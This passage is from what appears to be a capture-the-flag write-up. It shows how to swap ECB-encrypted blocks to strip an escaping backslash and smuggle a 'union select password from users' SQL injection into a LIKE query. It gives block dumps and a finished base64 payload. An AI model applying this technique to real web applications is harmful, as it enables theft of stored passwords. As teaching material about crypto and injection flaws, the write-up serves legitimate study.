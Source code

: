But i will try a different approach here.

Now that we know where our input is going to be,now we can try sql injection but we have to be clever while doing it because it will prepend a '/' if we try to close that LIKE statement with a parenthesis.

So this is what we are going to do.

1. Make a request with 10 A's 

```python
1be82511a7ba5bfd578c0eef466db59c  #some static data
dc84728fdcf89d93751d10a7c75c8cf2  #we dont care
c0872dee8bc90b1156913b08a223a39e  ??????AAAAAAAAAA  #10 A's
738a5ffb4a4500246775175ae596bbd6  #we dont know that this is
f34df339c69edce11f6650bbced62702  #might be some data and padding
```

2. now we are going to change our query to 9 A's and our sql injection payload. Even though we dont know what are the column names and how many columns are returned, we are assuming the database schema will be similar to previous examples.

```python
payload = AAAAAAAAA'union select password from users#

```

```python
# request made with above paylaod
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
11dbb80ae02425dc9726bffd1803160e   ??????AAAAAAAAA\ #9 A's and a '\'
5661930eeb7fdf14027d5b900ed1cec6   'union select password
b678f4a5c38072de4ab3eb6c6482b1f3    from .... and so on
f9c2015a39789562ab8212d01b28d603
75fd5044fd063d26f6bb7f734b41c899
```

What happens is that the a backslash is appended to the paranthesis which will fill the 3rd block because we have inputted the 9 A's and the paranthesis will go to the next block as shown in figure above.

3. Now we have to replace the 3rd block in step 2 with the 3rd block in step 1. By doing so we now successfully removed the backslash and now you query is valid to get the password.

```python
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
11dbb80ae02425dc9726bffd1803160e   ??????AAAAAAAAAA
5661930eeb7fdf14027d5b900ed1cec6   'union select password
b678f4a5c38072de4ab3eb6c6482b1f3    from .... and so on
f9c2015a39789562ab8212d01b28d603
75fd5044fd063d26f6bb7f734b41c899
```

Now we just have to base64 encode this and send it to the web server.

```python
payload:G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6OeVmGTDut/3xQCfVuQDtHOxrZ49KXDgHLeSrPrbGSCsfP5wgFaOXiVYquCEtAbKNYDdf1QRP0GPSb2u39zS0HImQ%3D%3D
```
